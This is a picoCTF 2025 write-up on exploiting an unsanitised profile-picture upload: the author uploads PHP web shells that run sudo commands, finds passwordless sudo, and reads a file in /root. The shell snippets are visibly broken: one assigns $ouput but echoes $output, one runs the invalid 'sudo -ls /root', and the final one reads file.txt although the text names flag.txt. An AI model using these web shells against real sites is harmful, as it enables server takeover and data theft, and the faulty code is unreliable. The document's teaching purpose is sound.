


# Challenge: n0s4n1ty 1

## Details:

- Source: picoCTF 2025
- Category: Web Explotation
- Difficulty: Easy
- Date completed: 12.07.2025
- A website was provided


## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.


## Hints

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


## Tools

- A simple PHP web shell


## Steps taken

1. As hints suggested, there was no input sanitation in the website. Users can upload any kind of files instead of image files.

2. I did some research and wrote a php file to get a web shell in order to execute commands. My first try was to run `sudo -l` as the hint suggested.

    ```bash
    <?php 
    $command = 'sudo -l';
    $ouput = exec($command);
    echo "$output";
    ?>
    ```

3. I encountered this after uploading, suggesting the directory where my files are uploaded can be accessed publicly.

    

4. I navigated to the /uploads/filename.

    

This output showed that I can run any command with sudo without password.

5. My next attempt was to see the files and directories `/root` contained, as the description mentioned the flag was somewhere there. This was my next php file.

    ```bash
    <?php
    $command = 'sudo -ls /root';
    $output = exec($command);
    echo "$output";
    ?>
    ```

6. I discovered the only file in root directory was `flag.txt`, therefore my next and final step was to read its contents and submit the flag, for whic I modified my `exploit.php` file to this.

    ```bash
    <?php
    $command = 'sudo cat /root/file.txt';
    $output = exec($command);
    echo "$output";
    ?>
    ```


## What I learned

1. File upload vulnerabilities occur when an application allows a user to upload a file without properly validating the file’s type, name, size, or content.

2. These vulnerabilities can lead to Remote Code Execution (RCE), directory traversal, or webshell access if exploited.

3. These vulnerabilities can be exploited using Burpsuite as well, by changing headers. 


## Useful references

1. [File upload vulnerabilities learning path](https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities)

2. [Web Shells 101](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

